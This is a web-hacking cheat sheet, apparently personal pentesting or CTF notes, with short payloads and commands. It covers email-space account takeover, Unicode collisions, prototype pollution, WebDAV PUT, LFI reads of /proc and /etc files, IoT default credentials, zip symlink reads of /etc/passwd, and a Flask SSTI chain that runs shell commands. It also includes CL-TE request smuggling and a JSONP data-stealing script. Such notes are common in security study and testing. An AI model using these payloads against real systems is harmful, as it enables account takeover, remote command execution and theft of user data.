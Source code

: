 ## Login exploits

	1. While registering account, try to append a space at the end of already registered email to attempt user account takeover(db removes trailing space while inserting however application not).

	2. If email maximum length is fixed and characters after allowed length are stripped, try to register an email having spaces appended till maximum character length + any character at end, eg <admin@htb.com      #>. 

## Unicode Collisions

unicode characters collide with few english characters. This fact can be used to exploit functionalities like - when Forgot password emails validated against lowercase/uppercase value on file, but sent to the provided input email.

```
// https://eng.getwisdom.io/hacking-github-with-unicode-dotless-i/

//uppercase scenario
chr(0x017f).upper()=='S'	# returns True
chr(0x0131).upper()=='I'

// lowercase scenario
chr(0x212A).lower()=='k'
```

## Javascript prototype pollution

Using this bug, we can set new properties of objects. Eg- we can set json object {"user":"test"} new property admin=true if server takes json data and sets attributes using it. 

payload `{"user":"test","__proto__":{"admin":true}}`

```
a={}
b=1
c='ds'

# polluting prototype
a.__proto__.foo='bar'

# All objects have foo property now with value bar
d=new Object
d.foo=='bar'	# true
b.foo=='bar'	# true
```

## WebDAV/PUT method enabled

```
curl -X PUT http://192.168.14.129/dav/test.txt
cadaver http://target/dav
```


## LFI

```
cat /proc/version
cat /etc/issue
cat /proc/self/environ
cat /proc/net/tcp	# listening processes tcp
cat /proc/net/udp	# listening processes udp
```

## Universal Plug and Play UPnP 

* Windows Device Portal - port 8080

	Windows IoT Core devices support a special webserver called the Device Portal. Windows Device Portal runs on port 8080 in Development mode and has default credentials as Administrator and p@ssw0rd (zero).

	RCE can be acheived using the vulnerability in Sirep/WPCon communications protocol included with Windows IoT operating system.

	```
	// git clone the repo
	https://github.com/SafeBreach-Labs/SirepRAT
	```

* CallStranger(CVE-2020-12695) Vulnerability - port 37215

	The vulnerability – CallStranger – is caused by Callback header value in UPnP SUBSCRIBE function can be controlled by an attacker and enables an SSRF-like vulnerability.

	```
	// git clone the repo
	https://github.com/yunuscadirci/CallStranger
	```

## Zip Symlink

If zip files can be uploaded and content is accessible. Try to access local files using this bug. 

```
mkdir test
cd test
ln -s /etc/passwd link.txt
cat link.txt 		# prints content of /etc/passwd
zip --symlinks -r test.zip test/
unzip -l test.zip
```

## Flask Template Injection SSTI

Check with basic template injection payload {{ 7* 7}} and if it evaluates, try to further exploit it. May be it reflects at multiple places, make sure to check them all.

```
https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

{{ config.items() }}	#see config items

#Get subprocess.Popen object using mro(parent) and subclasses
{{ ''.__class__.__mro__[1].__subclasses__() }}

#Execute command
{{‘’.__class__.__mro__[1].__subclasses__()[287]('ls',shell=True,stdout=-1).communicate()}}
```

## Request Smuggling

Pass both content-length and Transfer-Encoding header when posting data to an endpoint. Try CL-TE, TE-CL and TE-TE attack.

Make sure to change connection header to keep-alive. Also use mandatory headers like Host, user-agent and cookie to avoid server discarding the request. For post request, use content-length and content-type header as well. 

```
Remember Transfer encoding uses hex numbers to represent chunk size.

## CL-TE example (CL frontend, TE backend)

Content-Length: 50
Transfer-Encoding:chunked

0

POST /404 HTTP/1.1
Host: 10.10.14.93
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Cookie: session=abcd

msg=abc
```

## JsonP

Check if website returns sensitive json data.  If so, try to append query parameter jsonp or callback and see if jsonp is supported. 

Jsonp exploit works in firefox only.

```
<script>
      userinfo = function (data) {
      alert(JSON.stringify(data));
      };  
</script>
<script src="https://www.bugbountytraining.com/challenges/challenge-15.php?jsonp=userinfo" type="text/javascript"></script>
 Challenge hints
(click to reveal)
 Guides
Understanding Application/Business Logic vulnerabilities
```